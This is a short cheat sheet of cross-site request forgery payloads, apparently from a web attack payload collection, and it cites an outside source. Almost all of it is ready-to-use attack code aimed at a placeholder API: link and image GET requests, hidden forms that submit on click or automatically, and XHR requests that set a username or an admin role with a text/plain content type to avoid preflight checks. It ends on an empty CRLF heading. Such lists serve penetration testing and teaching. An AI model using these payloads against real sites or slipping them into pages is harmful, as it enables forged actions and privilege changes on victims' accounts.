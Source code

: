 # CSRF common payloads

### On click submit - HTML GET
```html
<a href="http://www.example.com/api/setusername?username=CSRF">Click Me</a>
```
### Auto submit - HTML GET
```html
<img src="http://www.example.com/api/setusername?username=CSRF">
```
### On click submit - HTML POST

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRF" />
 <input type="submit" value="Submit Request" />
</form>
```
### Auto submit - HTML POST
```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```
### JSON GET
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
### JSON POST
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```
#### [source](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
--------------------------------------------------------------------------------
# CRLF common payloads
